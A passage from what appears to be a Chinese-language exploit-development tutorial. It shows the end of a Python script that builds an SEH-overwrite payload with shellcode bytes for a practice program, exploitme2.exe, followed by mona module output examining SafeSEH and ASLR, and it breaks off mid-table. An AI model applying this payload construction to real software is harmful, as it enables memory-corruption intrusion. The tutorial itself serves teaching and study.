                 "\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24"+
                "\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04"+
                "\x30\x03\xc6\xeb\xdd")
        data = 'a'*84 + jmp + handler + shellcode
        f.write(data + 'c' * (10000 - len(data))) 
    

如果你使用WinDbg调试exploitme2.exe，你将会发现出错了。我们的handler(`pop/pop/ret`)并没有被调用,为什么？

我们来看一看已加载的模块：

    
    
    0:000> !py mona modules
    Hold on...
    [+] Command used:
    !py mona.py modules    
    
    ---------- Mona command started on 2015-03-19 00:31:14 (v2.0, rev 554) ----------
    [+] Processing arguments and criteria
        - Pointer access level : X
    [+] Generating module info table, hang on...
        - Processing modules
        - Done. Let's rock 'n roll.
    ----------------------------------------------------------------------------------------------------------------------------------
     Module info :
    ----------------------------------------------------------------------------------------------------------------------------------
     Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
    ----------------------------------------------------------------------------------------------------------------------------------
     0x774b0000 | 0x774ba000 | 0x0000a000 | False  | True    | True  |  True    | True   | 6.1.7601.18768 [LPK.dll] (C:\Windows\syswow64\LPK.dll)
     0x00190000 | 0x00196000 | 0x00006000 | False  | True    | True  |  False   | False  | -1.0- [exploitme2.exe] (exploitme2.exe)
     0x752d0000 | 0x7532a000 | 0x0005a000 | False  | True    | True  |  True    | True   | 8.0.0.4344 [guard32.dll] (C:\Windows\SysWOW64\guard32.dll)
     0x764c0000 | 0x7658c000 | 0x000cc000 | False  | True    | True  |  True    | True   | 6.1.7601.18731 [MSCTF.dll] (C:\Windows\syswow64\MSCTF.dll)
     0x76360000 | 0x763a7000 | 0x00047000 | False  | True    | True  |  True    | True   | 6.1.7601.18409 [KERNELBASE.dll] (C:\Windows\syswow64\KERNELBASE.dll)
     0x752c0000 | 0x752c9000 | 0x00009000 | False  | True    | True  |  True    | True   | 6.1.7600.16385 [VERSION.dll] (C:\Windows\SysWOW64\VERSION.dll)
     0x752b0000 | 0x752b7000 | 0x00007000 | False  | True    | True  |  True    | True   | 6.1.7600.16385 [fltlib.dll] (C:\Windows\SysWOW64\fltlib.dll)
     0x758c0000 | 0x7595d000 | 0x0009d000 | False  | True    | True  |  True    | True   | 1.626.7601.18454 [USP10.dll] (C:\Windows\syswow64\USP10.dll)
     0x75b50000 | 0x75be0000 | 0x00090000 | False  | True    | True  |  True    | True   | 6.1.7601.18577 [GDI32.dll] (C:\Windows\syswow64\GDI32.dll)
     0x75dc0000 | 0x75ed0000 | 0x00110000 | False  | True    | True  |  True    | True   | 6.1.7601.18409 [kernel32.dll] (C:\Windows\syswow64\kernel32.dll)
     0x75960000 | 0x75a0c000 | 0x000ac000 | False  | True    | True  |  True    | True   | 7.0.7601.17744 [msvcrt.dll] (C:\Windows\syswow64\msvcrt.dll)
     0x75550000 | 0x7555c000 | 0x0000c000 | False  | True    | True  |  True    | True   | 6.1.7600.16385 [CRYPTBASE.dll] (C:\Windows\syswow64\CRYPTBASE.dll)
     0x75560000 | 0x755c0000 | 0x00060000 | False  | True    | True  |  True    | True   | 6.1.7601.18779 [SspiCli.dll] (C:\Windows\syswow64\SspiCli.dll)
     0x77bd0000 | 0x77d50000 | 0x00180000 | False  | True    | True  |  True    | True   | 6.1.7601.18247 [ntdll.dll] (ntdll.dll)
     0x75ed0000 | 0x75f70000 | 0x000a0000 | False  | True    | True  |  True    | True   | 6.1.7601.18247 [ADVAPI32.dll] (C:\Windows\syswow64\ADVAPI32.dll)
     0x77660000 | 0x77750000 | 0x000f0000 | False  | True    | True  |  True    | True   | 6.1.7601.18532 [RPCRT4.dll] (C:\Windows\syswow64\RPCRT4.dll)
     0x6d510000 | 0x6d5fe000 | 0x000ee000 | False  | True    | True  |  True    | True   | 12.0.21005.1 [MSVCR120.dll] (C:\Windows\SysWOW64\MSVCR120.dll)
     0x764a0000 | 0x764b9000 | 0x00019000 | False  | True    | True  |  True    | True   | 6.1.7600.16385 [sechost.dll] (C:\Windows\SysWOW64\sechost.dll)